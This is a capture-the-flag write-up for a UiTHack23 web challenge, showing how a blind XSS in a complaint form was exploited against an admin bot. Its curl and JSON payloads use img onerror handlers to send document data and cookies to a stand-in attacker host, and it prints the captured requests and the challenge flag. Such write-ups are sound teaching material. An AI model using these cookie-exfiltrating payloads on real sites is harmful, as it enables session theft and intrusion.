 # Flags 24/7

Bill gates approves this design

motherload.td.org.uit.no:5050

# Writeup

Looking at the website I found nothing at a first glance. There is a post which runs a request when pressing the get flag. I'll look more into that if it's not a read herring.

```
curl 'http://motherload.td.org.uit.no:5000/complaint' \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"test","complaint":"test"}'
```

I sent a few requests but nothing seems to work. So I tried to see if someone was reading those complaints via HTML by sending exactly that, HTML data. Sending the following request while hosting a simple `socat` server using `socat - TCP-LISTEN:1234,fork,reuseaddr`. 

```
curl 'http://motherload.td.org.uit.no:5000/complaint' \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"<img src='http://evil.corp:1234/email.png'>","complaint":"<img src='http://evil.corp:1234/complaint.png'>"}'
```

Seems to do nothing. So I'll looking at other things in the DOM. I found nothing really exploitable. Everything is local. The  logo is kinda weird it has a weird hash in it:

```
http://motherload.td.org.uit.no:5050/static/media/logoHeader.a2e1f8a09e95fdffdafd.png
```

Seems like nothing, crackstation did not have this hash, neither did google. But it is in the flags 24/7. Woah, there I got something in my socat session!

```bash
ubuntu@vm23152:~$ socat - TCP-LISTEN:1234,fork,reuseaddr
Listening on 0.0.0.0 1234
Connection received on 129.242.219.77 35664
GET /complaint.png HTTP/1.1
Host: evil.corp:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/109.0.5414.74 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://motherload.td.org.uit.no:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Wow, someone actually reads the complaints?  Seems like the complaint field is XSS'able. We're actually dealing with `Blind XSS`. This is when you can kinda add a ticking bomb to the system. You dont know when it is executed but once it does it will be run on the victims machine. So you need to keep your server up to receive the data. Seems like it runs every minute so I'll have to wait one minute for each test.

So I try to see if I can get RCE by getting the document object.

```json
{
	"email": "",
	"complaint": "<script>document.location= 'http://evil.corp:1234/?' + JSON.stringify(document)</script>"
}
```

Not really getting anything. Might be that script is filtered. Opening the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#dom-based-xss) reminded me of the onerror in image which ofcourse also executes scripts.

```json
{
	"email": "",
	"complaint": "<img src=/ onerror='this.src=\"http://evil.corp:1234/test.png\"'>"
}
```

Oh this worked, lets see if I can get document.cookie:


```json
{
	"email": "",
	"complaint": "<img src=/ onerror='this.src=\"http://evil.corp:1234/test.png?\" + JSON.stringify(document)'>"
}
```

And there we go we got the whole document object: 

```
GET /test.png?{%22location%22:{%22ancestorOrigins%22:{},%22href%22:%22http://motherload.td.org.uit.no:5000/admin?sha256=<REDACTED>%22,%22origin%22:%22http://motherload.td.org.uit.no:5000%22,%22protocol%22:%22http:%22,%22host%22:%22motherload.td.org.uit.no:5000%22,%22hostname%22:%22motherload.td.org.uit.no%22,%22port%22:%225000%22,%22pathname%22:%22/admin%22,%22search%22:%22?sha256=<REDACTED>%22,%22hash%22:%22%22}} HTTP/1.1
Host: evil.corp:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/109.0.5414.74 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://motherload.td.org.uit.no:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

Some quick urlencoding, and prettifying:

```json
{
  "location": {
    "ancestorOrigins": {},
    "href": "http://motherload.td.org.uit.no:5000/admin?sha256=<REDACTED>",
    "origin": "http://motherload.td.org.uit.no:5000",
    "protocol": "http:",
    "host": "motherload.td.org.uit.no:5000",
    "hostname": "motherload.td.org.uit.no",
    "port": "5000",
    "pathname": "/admin",
    "search": "?sha256=<REDACTED>",
    "hash": ""
  }
}
```

I think I'm breaking something I was not supposed to break here. But `motherload.td.org.uit.no:5000` is an external server running the `admin` endpoint. It gives a error `901 NO FLAG HERE`. But adding that redacted sha256 to the url request I get `test`. There is also a script loaded in there which looks like this:

```js
fetch(
  "http://motherload.td.org.uit.no:5000/db?sha256=<REDACTED>"
)
  .then((response) => {
    return response.json();
  })
  .then((data) => {
    displayCocktail(data);
  })
  .catch((error) => console.error("FETCH ERROR:", error));

function displayCocktail(data) {
  document.cookie = "flag=UiTHack23{xxspl0its_4r3_phun}";
  const cocktailDiv = document.getElementById("cocktail");
  try {
    data.forEach((issue) => {
      const cocktailName = document.createElement("div");
      cocktailName.innerHTML = issue[1];
      cocktailDiv.appendChild(cocktailName);
    });
  } catch (e) {}
}

phantom.exit();
```

Here I can see the flag. I also see that the endpoint `db` is showing our complaints once, then deletes them. So I could break it here by curling this endpoint ever 5 seconds and steal all your complaints. `*evil-laughter*`.  The meaning is that we are blind xss'ing the document.cookie as I read it. But I think I went a step further.

The intended solution seems to be:

```json
{
	"email": "",
	"complaint": "<img src=/ onerror='this.src=\"http://evil.corp:1234/test.png?\" + document.cookie'>"
}
```

Which gives the flag in the request.

# Flag

```
UiTHack23{xxspl0its_4r3_phun}
```

